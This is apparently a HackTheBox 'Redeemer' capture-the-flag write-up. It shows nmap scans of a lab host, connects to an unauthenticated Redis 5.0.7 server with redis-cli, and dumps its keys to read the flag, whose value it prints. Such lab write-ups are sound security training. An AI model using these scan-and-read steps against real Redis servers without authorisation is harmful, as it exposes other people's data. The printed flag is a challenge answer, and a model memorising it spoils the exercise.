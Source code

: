 ## Redeemer HackTheBox
### Room Description:

----

#### First Step: `Network Enum`
First thing first. Run Nmap to find *what's up*:
```bash
nmap -A -sV --privileged -T5 10.129.112.191 -p- -O -sC -v
```
Result:
```terminal
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```
it has **`Redis`** running on port `6379`. It's time to find exploit for this version.

#### Second Step: `Finding my way in`
Now as we know the service and the version, we will try to find relative exploit for this.

I've found a Nmap command to get more info about the server: 
```bash
nmap --script redis-info -sV -p 6379 10.129.112.191 -v -T4
```
After running a scan I got this:
```terminal
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7 (64 bits)
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 749
|   Used CPU (sys): 1.645416
|   Used CPU (user): 1.207701
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.6
```
Nice. Now it's time to connect with the server. We can do it in 2 different way:

1. NetCat:
   1. ` nc -vn 10.10.10.10 6379`
2. redis-cli:
   1. `redis-cli -h 10.10.10.10`
   > if it's not installed: `sudo apt-get install redis-tools`

I will use **`redis-cli`** cause `nc` doesn't offer necessery help for command. So if you connect using `nc`, you will not be able to use `help`.

#### Third Step: `Getting what we need`
As we got into the server. Now it's time to find the flag. I used [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) page to find necessary commands.

`Let's see what we can do:`

First we have to see what's inside the database. for that we can use the command **`INFO`**<br>
`INFO keyspace` -> this will retrun the database availabe on the server. In our case, we will get:
```terminal
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
Now we will view what are the keys of `db0`. For that we have to select it first:<br>
`SELECT 0`<br>
the view the keys:<br>
`KEYS *`<br>You will have
```terminal
1) "numb"
2) "temp"
3) "stor"
4) "flag"
```
To view each key, use: `GET <key>`<br>
*e.g:* we will get the `flag`: `GET flag`
```terminal
10.129.112.191:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
```
That's how you do it.
